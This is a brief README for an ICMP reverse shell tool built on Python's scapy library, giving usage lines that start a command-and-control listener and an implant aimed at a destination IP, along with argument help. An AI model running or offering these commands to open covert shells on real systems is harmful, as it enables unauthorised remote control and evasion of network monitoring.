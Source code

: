 # ICMP Reverse Shell in Python 3 
ICMP reverse shell with py3 scapy

Usage:
```bash
./icmp-cnc.py -i INTERFACE -d DESTINATION_IP (Command and Control)
./icmpdoor.py -i INTERFACE -d DESTINATION_IP (Implant)
```
Arguments:

```bash
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Listener (virtual) Network Interface (e.g. eth0)
  -d DESTINATION_IP, --destination_ip DESTINATION_IP
                        Destination IP address
  ```
